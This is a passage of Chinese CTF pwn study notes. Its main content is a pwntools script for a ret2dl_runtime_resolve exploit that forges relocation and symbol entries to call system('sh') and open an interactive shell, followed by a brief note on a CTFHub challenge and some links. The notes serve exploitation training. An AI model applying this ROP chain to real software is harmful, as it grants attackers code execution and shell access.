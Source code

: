 ```python
##那么在base_stage + 24的位置存放伪造结构体，并计算index_offset
#在base_stage+24的位置开始部署.rel.plt的结构体
index_offset = base_stage + 24 - rel_plt
write_got = elf.got['write']

#由.dynsym下标反推r_info
r_info = (index_dynsym << 8) | 0x7
fake_write_reloc = flat([write_got,r_info])

rop.raw(plt0)
rop.raw(index_offset)

#伪造write函数的ret addr
rop.raw(b'bbbb')# system函数的返回地址
rop.raw(base_stage + 80)#system参数一
rop.raw(b'bbbb')# system参数二
rop.raw(b'bbbb')# system参数三
rop.raw(fake_write_reloc) #伪造的.rel.plt的结构体
rop.raw(b'a' * Align) #对齐
rop.raw(fake_write_sym) #伪造的.dynsym的结构体
rop.raw(b'system\x00')

rop.raw(b'a' * (80 - len(rop.chain())))
rop.raw(sh)
rop.raw(b'a' * (100 - len(rop.chain())))
print(rop.dump())#可查看栈布局

# 发送此次利用链
p.sendline(rop.chain())
p.interactive()
```

[好好说话之ret2_dl_runtime_resolve_ret2dlruntime-CSDN博客](https://blog.csdn.net/qq_41202237/article/details/107378159?spm=1001.2014.3001.5501)



#### 来自CTFHub的题

首先在IDA查看一下代码内容（先使用gdb查看checksec一下）：

![image-20240314194029590](${images}/image-20240314194029590.png)

![image-20240314194036954](${images}/image-20240314194036954.png)



没有什么好的后门，以及超大的栈溢出0x1000u



那么根据题目提示，且Partial RELRO，可以使用dl_resolve



### 1、（9）SROP-Vdso


[CTF-wiki]: https://ctf-wiki.org/pwn/linux/user-mode/environment/	"ctf-wiki知识库"
[CTFHub]: https://www.ctfhub.com/#/skilltree	"ctfhub技能树"
[攻防世界]: https://adworld.xctf.org.cn/challenges/list	"题库"